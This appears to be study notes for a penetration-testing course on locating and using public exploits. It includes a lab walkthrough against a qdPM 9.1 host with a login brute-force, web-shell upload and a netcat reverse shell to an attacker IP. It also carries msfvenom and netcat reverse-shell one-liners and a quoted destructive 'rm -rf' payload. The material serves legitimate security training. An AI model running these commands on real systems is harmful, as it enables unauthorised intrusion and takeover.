

# Using Public Exploits - Cheat Sheet & Walkthrough

## Table of Contents
1. [Exploit Safety & Risk Assessment](#1-exploit-safety--risk-assessment)
2. [Online Exploit Resources](#2-online-exploit-resources)
3. [Offline Exploit Access](#3-offline-exploit-access)
4. [Practical Exploitation Walkthrough](#4-practical-exploitation-walkthrough)
5. [Quick Reference](#5-quick-reference)

---

## 1. Exploit Safety & Risk Assessment

### 1.1 The Danger of Untrusted Exploits

#### Why Public Exploits Can Be Dangerous

| Risk | Description | Example |
|------|-------------|---------|
| **Malicious Code** | Exploit may contain backdoors | Wipes attacking machine |
| **System Damage** | Can crash or corrupt systems | `rm -rf ~ /* 2> /dev/null &` |
| **Network Damage** | May flood networks | DOS attacks on wrong targets |
| **Legal Liability** | Unauthorized damage | Client lawsuits |
| **Embarrassment** | Public exposure | IRC notification |

#### Real Example: Malicious SSH Exploit

```c
// Suspicious: Asking for root on attacker's machine
if (geteuid()) {
  puts("Root is required for raw sockets, etc."); 
  return 1;
}

// Malicious payload masked as shellcode
char jmpcode[] =
"\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f"
"\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26";
```

**Decoded Payload**:
```bash
rm -rf ~ /* 2> /dev/null &
```

**Result**: Would wipe out the attacker's entire filesystem!

---

### 1.2 Safe Exploit Testing Practices

#### Risk Levels by Exploit Source

| Source | Risk Level | Why |
|--------|------------|-----|
| **Exploit-DB** | Low | Verified, reviewed |
| **Packet Storm** | Low | Reviewed before hosting |
| **GitHub** | Medium-High | Unreviewed, anyone can post |
| **Forums** | High | No review process |
| **Torrents** | Very High | No oversight |

#### Safe Testing Methodology



#### Key Safety Principles
1. **Always read the code first**
2. **Test in isolated VM with snapshots**
3. **Use non-production environments**
4. **Understand what the exploit does**
5. **Verify exploit matches target OS/version**
6. **Compile from source when possible**

---

## 2. Online Exploit Resources

### 2.1 Exploit Database (Exploit-DB)

#### Overview
- **Maintained by**: OffSec
- **Access**: Free
- **Verified Exploits**: Checkmark indicator
- **Updates**: Twitter, RSS

#### Key Fields

| Field | Description |
|-------|-------------|
| **D** | Direct download link |
| **A** | Vulnerable application file download |
| **V** | Verified exploit (reviewed & working) |
| **Title** | Vulnerable app, version, exploit function |
| **Type** | dos, local, remote, webapp |
| **Platform** | OS, hardware, language |
| **Author** | Exploit creator |

#### Exploit Types

| Type | Description | Example |
|------|-------------|---------|
| **dos** | Denial of Service | Crashes service |
| **local** | Requires local access | Privilege escalation |
| **remote** | Network exploitable | RCE over network |
| **webapp** | Web application specific | SQL injection, XSS |

#### EDB-ID
- Unique numeric identifier
- Appears in URL: `https://www.exploit-db.com/exploits/50943`

#### CVE Association
- Each exploit may list affected CVE
- Helps identify patch status

---

### 2.2 Packet Storm

#### Overview
- **Focus**: Security news, exploits, tools
- **Reviewed**: Yes, before hosting
- **Updates**: Twitter, RSS

#### Content Types
- Exploits
- Security tools
- News articles
- Vulnerability disclosures

---

### 2.3 GitHub

#### Advantages
- Fast exploit availability
- Often has latest PoCs
- Community contributions
- Easy collaboration

#### Risks
- No review process
- Anyone can post
- Malicious code common
- Verification required

#### Malicious Example Warning
```
Warning from security researcher:
"Anyone running this exploit from GitHub
will instead be infected with a backdoor"
```

#### OffSec GitHub
- Contains verified exploit repos
- `exploitdb-bin-sploits` - Pre-compiled exploits
- Official and trusted source

---

### 2.4 Google Search Operators

#### Useful Operators for Finding Exploits

| Operator | Purpose | Example |
|----------|---------|---------|
| `site:` | Limit to specific site | `site:exploit-db.com` |
| `inurl:` | Search within URL | `inurl:exploit` |
| `intitle:` | Search within title | `intitle:"exploit"` |
| `intext:` | Search within text | `intext:"remote"` |
| `filetype:` | Specific file type | `filetype:py` |

#### Example Searches
```bash
# Search Exploit-DB for Microsoft Edge exploits
firefox --search "Microsoft Edge site:exploit-db.com"

# Find PHP exploits on GitHub
firefox --search "PHP exploit inurl:github.com"

# Search for RCE exploits by title
firefox --search "intitle:RCE exploit"

# Find Python exploit scripts
firefox --search "exploit filetype:py"
```

---

## 3. Offline Exploit Access

### 3.1 Exploit Frameworks

| Framework | Type | Cost | Focus |
|-----------|------|------|-------|
| **Metasploit** | Open/Commercial | Free/Paid | General exploitation |
| **Core Impact** | Commercial | Paid | Automated testing |
| **Canvas** | Commercial | Paid | Professional pentesting |
| **BeEF** | Open Source | Free | Browser exploitation |

#### Metasploit
- Created by HD Moore (2003)
- Owned by Rapid7
- Free Community Edition
- Extensive exploit database
- Covered in detail later in PEN-200

#### Core Impact
- Owned by HelpSystems
- No free version
- Automated vulnerability testing
- Phishing campaign integration

#### BeEF (Browser Exploitation Framework)
- Focus on client-side attacks
- Browser-based exploitation
- Free and open source

---

### 3.2 SearchSploit

#### Overview
- Local Exploit-DB search tool
- Included in Kali Linux
- Exploit path: `/usr/share/exploitdb/`
- Two major directories:
  - `exploits/` - All exploit files
  - `shellcodes/` - All shellcode files

#### Updating SearchSploit
```bash
sudo apt update && sudo apt install exploitdb
```

#### Basic Syntax
```bash
searchsploit [options] term1 [term2] ... [termN]
```

#### Key Options

| Option | Purpose | Example |
|--------|---------|---------|
| `-c` | Case-sensitive search | `searchsploit -c Windows` |
| `-e` | Exact match | `searchsploit -e "WordPress 4.1"` |
| `-t` | Title-only search | `searchsploit -t smb` |
| `-p` | Show exploit path | `searchsploit -p 39446` |
| `-m` | Copy to current directory | `searchsploit -m 50944` |
| `-w` | Show Exploit-DB URL | `searchsploit -w linux` |
| `--exclude` | Exclude terms | `searchsploit linux --exclude="(PoC)\|/dos/"` |

#### Search Examples

```bash
# Search for Windows SMB remote exploits
searchsploit remote smb microsoft windows

# Search for Linux kernel exploits (version 3.2)
searchsploit linux kernel 3.2

# Search for Apache Struts specifically
searchsploit -s Apache Struts 2.0.0

# Show path for specific exploit
searchsploit -p 42031

# Copy exploit to current directory
searchsploit -m 48537

# Search and show URLs
searchsploit -w linux
```

#### Exploit Directory Structure
```
/usr/share/exploitdb/
├── exploits/
│   ├── windows/
│   ├── linux/
│   ├── php/
│   ├── webapps/
│   └── [platforms]
├── shellcodes/
├── files_exploits.csv
└── files_shellcodes.csv
```

---

### 3.3 Nmap NSE Scripts

#### NSE Exploit Scripts Location
```
/usr/share/nmap/scripts/
```

#### Finding Exploit Scripts
```bash
# Search for exploit-related scripts
grep Exploits /usr/share/nmap/scripts/*.nse

# List all NSE scripts
ls -1 /usr/share/nmap/scripts/
```

#### Getting Script Information
```bash
nmap --script-help=clamav-exec.nse
```

#### Common Exploit NSE Scripts

| Script | Vulnerability |
|--------|---------------|
| `clamav-exec.nse` | ClamAV command execution |
| `http-awstatstotals-exec.nse` | Awstats RCE |
| `http-axis2-dir-traversal.nse` | Axis2 directory traversal |
| `http-fileupload-exploiter.nse` | File upload vulnerabilities |
| `http-litespeed-sourcecode-download.nse` | Litespeed source code disclosure |

#### Using NSE Exploit Scripts
```bash
# Basic execution
nmap --script=clamav-exec.nse target

# With arguments
nmap --script=clamav-exec.nse --script-args=clamav-exec.cmd=whoami target

# Run all exploit scripts
nmap --script=exploit target
```

---

## 4. Practical Exploitation Walkthrough

### 4.1 Target: qdPM 9.1

#### Step 1: Initial Enumeration

```bash
# Scan for open ports
nmap -sV 192.168.50.11

# Results
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2
80/tcp open  http    Apache httpd 2.4.38
```

#### Step 2: Web Application Discovery

**Website Content**:
- AI Development Company
- Staff information on "About Us" page
- Employee emails exposed

**Directory Enumeration**:
```
Found: /project/ directory
```

**Login Portal**:
- qdPM 9.1 Project Management
- Version found in source code
- Login requires email + password

#### Step 3: Search for Exploits

```bash
# Search Exploit-DB
searchsploit qdPM 9.1

# Results
----------------------------------------------
 Exploit Title                    | Path
----------------------------------------------
qdPM 9.1 - Remote Code Execution  | php/webapps/50944.py
qdPM 9.1 - Authenticated RCE      | php/webapps/50943.py
```

#### Step 4: Credential Discovery

**Extract Emails**:
```
george@AIDevCorp.org
jessica@AIDevCorp.org
kyle@AIDevCorp.org
sam@AIDevCorp.org
```

**Generate Wordlist**:
```bash
cewl http://192.168.50.11/ -w wordlist.txt
```

**Brute Force Login** (using patator):
```bash
patator http_fuzz \
    url=http://192.168.50.11/project/index.php/login \
    method=POST \
    body='login[_csrf_token]=_TOKEN_&login[email]=FILE0&login[password]=FILE1&http_referer=' \
    0=emails.txt \
    1=wordlist.txt \
    before_urls=http://192.168.50.11/project/index.php/login \
    before_egrep='_TOKEN_:name="login\[_csrf_token\]"[^>]*value="([^"]*)"' \
    accept_cookie=1 \
    follow=0 \
    -x ignore:clen=116
```

**Found Credentials**:
```
george@AIDevCorp.org:AIDevCorp
```

#### Step 5: Execute Exploit

```bash
# Copy exploit
searchsploit -m 50944

# Run exploit
python3 50944.py -url http://192.168.50.11/project/ -u george@AIDevCorp.org -p AIDevCorp

# Output
Backdoor uploaded at -> http://192.168.50.11/project/uploads/users/420919-backdoor.php?cmd=whoami
```

#### Step 6: Command Execution

**Test Web Shell**:
```bash
curl http://192.168.50.11/project/uploads/users/420919-backdoor.php?cmd=whoami
# Output: www-data
```

#### Step 7: Reverse Shell

**Check for netcat**:
```bash
curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=which nc"
# Output: /usr/bin/nc
```

**Start Listener**:
```bash
nc -lvnp 6666
```

**Execute Reverse Shell**:
```bash
curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=nc -nv 192.168.50.129 6666 -e /bin/bash"
```

**Receive Shell**:
```bash
nc -lvnp 6666
connect to [192.168.50.129] from (UNKNOWN) [192.168.50.11] 57956
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

### 4.2 Making Exploits Work

#### Common Exploit Requirements

| Requirement | How to Get |
|-------------|------------|
| **Credentials** | Brute force, default creds, enumeration |
| **Target Path** | Directory enumeration, source code |
| **Proper Version** | Banner grabbing, source code, headers |
| **Dependencies** | Install missing libraries |
| **Permissions** | Check file/directory permissions |

#### Troubleshooting Checklist

1. ✅ Correct target IP/domain
2. ✅ Correct port/service
3. ✅ Valid credentials (if required)
4. ✅ Target vulnerable version
5. ✅ Firewall not blocking
6. ✅ Network connectivity
7. ✅ Required dependencies installed
8. ✅ Proper permissions

---

## 5. Quick Reference

### Commands Reference

```bash
# Search for exploits
searchsploit term

# Copy exploit to current directory
searchsploit -m EDB-ID

# Show exploit path
searchsploit -p EDB-ID

# Update exploit database
sudo apt update && sudo apt install exploitdb

# Get NSE script info
nmap --script-help=script-name.nse

# Generate reverse shell executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > reverse.exe

# Web shell command execution
curl TARGET --data-urlencode "cmd=COMMAND"

# Netcat reverse shell
nc -e /bin/bash ATTACKER_IP PORT
```

### Key Exploit Sources

| Source | URL | Reviewed |
|--------|-----|----------|
| Exploit-DB | exploit-db.com | Yes |
| Packet Storm | packetstormsecurity.com | Yes |
| GitHub | github.com | No |
| Metasploit | metasploit.com | Yes |

### Safety Checklist

- [ ] Read exploit source code
- [ ] Understand what exploit does
- [ ] Test in isolated VM
- [ ] Take VM snapshot before testing
- [ ] Verify target matches exploit
- [ ] Use least privilege when possible
- [ ] Monitor for suspicious activity
- [ ] Have cleanup plan ready

### EDB Statistics

| Field | Values |
|-------|--------|
| **Types** | dos, local, remote, webapp |
| **Platforms** | windows, linux, android, multiple |
| **Languages** | PHP, Python, Ruby, C, Perl |

### Key Takeaways

| Concept                | Key Point                                   |
| ---------------------- | ------------------------------------------- |
| **Exploit Safety**     | Always read code before executing           |
| **SearchSploit**       | Offline local exploit database              |
| **Verified Exploits**  | Marked with "V" on Exploit-DB               |
| **NSE Scripts**        | Can execute exploits                        |
| **Exploit Frameworks** | Metasploit, Core Impact, Canvas             |
| **GitHub Risks**       | Unreviewed, potential malware               |
| **Hash Rule**          | Never run unverified exploits on production |